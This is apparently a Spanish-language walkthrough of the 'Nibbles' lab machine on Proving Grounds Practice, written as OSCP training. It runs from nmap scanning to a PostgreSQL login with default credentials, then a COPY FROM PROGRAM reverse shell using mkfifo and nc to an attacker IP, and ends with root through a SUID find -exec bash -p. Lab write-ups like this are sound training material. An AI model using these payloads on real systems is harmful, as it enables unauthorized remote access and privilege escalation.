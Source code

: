 ```yaml
---
layout: post
title: Nibbles (Linux - Intermediate) - Proving Grounds Practice
date: 11.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, SUID, FIND, File Permissions, PostgreSQL, PostgreSQL RCE, Fuzzing, Database, Intermediate]
---
```


# Resolución paso a paso de la máquina Nibbles:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.201.47 -oG allPorts
```

![image.png](assets/img/post-img/Nibbles/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p21,22,80,5437 --min-rate 5000 192.168.201.47 -oN targeted
```

![image.png](assets/img/post-img/Nibbles/image%201.png)

## EXPLOTACIÓN

- Después de enumerar varias cosas como las versiones de los servicios que corren en cada puerto, realizar fuerza bruta de directorios, intentar también fuerza bruta contra algunos de esos servicios… Descubrimos que podemos acceder a **POSTGRESQL** con credenciales por defecto y, desde dentro podemos operar para crearnos una nueva **TABLA** desde la que podremos lanzarnos una **REVERSE SHELL**:

### PostgreSQL

- Accedemos al servicio PostgreSQL por el puerto 5437 con las credenciales por defecto:

> 
**User:  postgres**  
**Password: postgres**
> 

```sql
psql -h 192.168.201.47 -p 5437 -U postgres
```

![image.png](assets/img/post-img/Nibbles/image%202.png)

- Una vez dentro de la **BBDD** enumeramos un poco pero vemos que solo están la **BBDD** por defecto, así que vamos a crear una nueva **TABLA** dentro de la propia base de datos **POSTGRES** para, desde ahí, lanzar una **REVERSE SHELL** hacia nuestra máquina atacante:

```sql
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>%261|nc 192.168.45.223 80 >/tmp/f';
```

![image.png](assets/img/post-img/Nibbles/image%203.png)

- Nos ponemos en escucha con NC y recibimos la conexión:

```bash
nc -lvnp 80
```

![image.png](assets/img/post-img/Nibbles/image%204.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Una vez dentro de la máquina víctima nos dirigimos hacia el directorio principal del único usuario que vemos,  que se llama **WILSON** y, desde ahí,  ya podemos leer la primera **FLAG**:

![image.png](assets/img/post-img/Nibbles/image%205.png)

## ESCALADA DE PRIVILEGIOS

- Enumerando los permisos **SUID** descubrimos que el binario **FIND** tiene los permisos mal configurados y nos puede servir para escalar privilegios:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![image.png](assets/img/post-img/Nibbles/image%206.png)

- Podemos aprovechar rápidamente esta vulnerabilidad ejecutando el programa ***find*** para buscar cualquier archivo conocido, como nuestra propia carpeta de escritorio. Una vez que se encuentra el archivo, **podemos indicarle *a find* que realice cualquier acción mediante el parámetro *-exec*** . En este caso, queremos ejecutar una shell en bash junto con el parámetro ***-p*** que impide que se restablezca el usuario efectivo.

```bash
find /home/wilson -exec "/usr/bin/bash" -p \;
```

![image.png](assets/img/post-img/Nibbles/image%207.png)

- Ahora ya podemos ir al directorio de **ROOT** y leer la **FLAG**:

![image.png](assets/img/post-img/Nibbles/image%208.png)